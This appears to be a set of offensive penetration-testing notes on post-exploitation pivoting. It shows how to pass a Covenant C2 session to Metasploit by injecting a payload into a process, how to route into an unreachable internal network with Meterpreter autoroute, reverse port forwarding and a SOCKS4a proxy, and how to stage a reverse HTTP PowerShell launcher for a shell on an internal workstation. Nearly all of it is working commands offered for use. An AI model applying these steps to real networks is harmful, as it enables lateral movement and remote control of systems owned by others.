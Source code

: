 **In Metasploit**:
```powershell
use exploit/multi/handler
set options
exploit -j
```

**In Covenant**:
```powershell
Launchers > powershell > net40 > HTTP Listener > copy the encoded payload
Grunts > high integrity shell > ps
find a process that has SessionID>0, doesnt need to be authority\system
inject <PID> > browser > msf.bin

# a wild session appears in msf
```


Meaning behind that:

> we have covenant session, but we found another network and want to portfwd to enum these networks.
So we will pass the session to meterpreter via covenant, we dont have GUI access here.
In meterpreter session we can run autoroute, portfwd and SOCKS.



**In Meterpreter session**:
```powershell
ipconfig
run autoroute -s <target network/24> 
```

> the target network is one that we dont have access and we need this portfwd to gain that

```powershell
run autoroute -p
portfwd add -R -p 2222 -l 443 -L <kali ip>
portfwd
background the session = ctrl+z

search socks
use auxiliary/server/socks4a
set srvport = the same as in /etc/proxychains4.conf
exploit -j
```

> Done, now we will generate traffic from this internal network to our kali.

```
workstation-02 > workstation-01 > kali
the traffic will pass through workstation-01 that we have directly access.
```


## Gaining a Shell on an Internal Workstation
**In Covenant**:
```powershell
Listeners > create > Reverse HTTP > BindPort=443(port we are listening) > ConnectPort=2222 > ConnectAddresses=<workstation-01 IP> > create

Launchers > powershell > Reverse HTTP > net40 > Generate
Host > /rev1.ps1 > Host > Copy encoded payload
```
